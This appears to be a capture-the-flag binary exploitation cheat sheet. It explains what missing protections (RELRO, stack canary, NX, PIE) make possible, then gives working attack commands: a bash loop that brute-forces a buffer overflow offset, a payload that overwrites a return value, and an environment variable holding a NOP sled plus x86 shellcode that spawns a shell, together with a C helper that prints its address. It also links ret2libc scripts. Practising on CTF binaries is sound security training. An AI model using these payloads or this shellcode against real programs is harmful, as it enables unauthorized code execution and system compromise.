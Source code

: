 > No RELRO: Possible to overwrite global variable

> No canary: Possible to smash the stack

> NX disabled: Possible to write and execute from the stack

> No PIE: Virtual address it should use and keeps its memory layout quite static

## Quick scripts

- `Find offset (64 bit)`

  - [pwntools-code]()

## Buffer overflow

- `bof guessing offset`

  - `for i in {20..28}; do echo $i; python -c "print 'A' * $i + '\xee\xba\xf3\xca'" | ./bof ; done`
  - `(python -c "print 'A' * 24 + '\xee\xba\xf3\xca'"; cat) | ./bof`

- `Jump to env`

  - ```sh
    export WIN=$(python -c "'\x90' * 100 + '\x31\xc0\x99\xb0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80'")
    ```
  - ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main(int argc, char *argv[]) {
      char *nix = getenv("WIN");
      printf("%p\n", nix);

      return 0;
    }
    ```

## Return 2 libc

- `ret2libc`

  - [pwntools-code](https://github.com/ByamB4/Capture-The-Flag/blob/master/Binary%20Exploitation/src/return2libc-basic-syntax.py)
